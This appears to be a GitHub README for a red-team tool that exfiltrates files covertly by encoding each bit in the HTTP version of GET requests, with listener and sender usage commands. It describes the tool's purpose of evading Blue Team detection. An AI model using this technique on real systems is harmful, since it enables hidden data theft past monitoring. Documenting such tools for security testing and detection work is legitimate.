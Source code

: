 # http-protocol-exfil

Use the HTTP protocol version to send a file bit by bit ("HTTP/1.0" is a 0 and "HTTP/1.1" is a 1). It uses GET requests so the Blue Team would only see the requests to your IP address. However, it takes a long time to send bigger files, for example it needs 1 hour to send 200 KB, and the amount of requests would be very high (8 times the number of bytes of the file).

![memillo](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/http_protocol_exfil/memillo.png)


## Create listener 

To run the listener use listener.py with one optional argument: the port it will be listening in.

```
python3 listener.py [PORT]
```

Example:

```
python3 listener.py 8080
```

## Send a file

To send a file use sender.py with two mandatory arguments: the file path and the url of the listener; and one optional argument: the name of the file created remotely (if not used, the name of the input file is used).

```
python3 sender.py -u URL -i INPUTFILE [-o OUTPUTFILE]
```

Example:

```
python3 sender.py -u "http://127.0.0.1:8080" -i test.txt -o updated_test.txt
```

---------------------------------------------------------------

First the file is sent:

![image1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/http_protocol_exfil/image1.png)

If the variable debug is set to True (it is by default) you can see the binary values in the listener log messages:

![image2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/http_protocol_exfil/image2.png)

The new file is created with the content of the input file:

![image3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/http_protocol_exfil/image3.png)

---------------------------------------------------------------

## Motivation

I think (I am not sure) I read someone on Twitter who claimed to have used this to exfiltrate data and I liked the idea, if you are that person let me know.
